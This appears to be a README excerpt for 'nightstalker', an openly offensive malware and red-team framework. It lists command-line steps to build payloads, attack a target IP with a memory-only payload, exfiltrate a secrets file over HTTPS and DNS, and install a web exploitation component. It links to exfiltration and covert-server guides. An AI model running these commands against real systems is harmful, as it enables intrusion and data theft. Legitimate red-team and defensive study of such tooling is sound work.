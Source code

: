## 🚀 Quick Start (Malware/Red Teaming)
```bash
# Build a payload
python -m nightstalker.cli payload build --type recon --format python -o payload.py

# Run red team operations
python -m nightstalker.cli redteam attack --target 10.0.0.5 --payload memory_only

# Exfiltrate data
python -m nightstalker.cli exfil --data secrets.txt --channels https dns

# Monitor file system
python -m nightstalker.cli monitor --paths /tmp /var/log
```

## 📚 Documentation
- [Linux Deployment Guide](LINUX_DEPLOYMENT_GUIDE.md)
- [Exfiltration Guide](EXFILTRATION_GUIDE.md)
- [Covert Server Guide](COVERT_SERVER_GUIDE.md)

---

# 🚀 Quick Start

## Prerequisites
- Python 3.8+
- Linux/macOS (recommended) or Windows
- Git

## Installation

### Option 1: Web Exploitation Only
```bash
# Install web exploitation framework
python install_web_exploit_framework.py
```

### Option 2: Full Framework
```bash
# Install all dependencies
pip install -r requirements.txt

# Setup the framework
python setup.py install
```

### Option 3: Development Setup
```bash
# Clone and setup
git clone <repository>
cd nightstalker
pip install -r requirements.txt
python setup.py develop
```
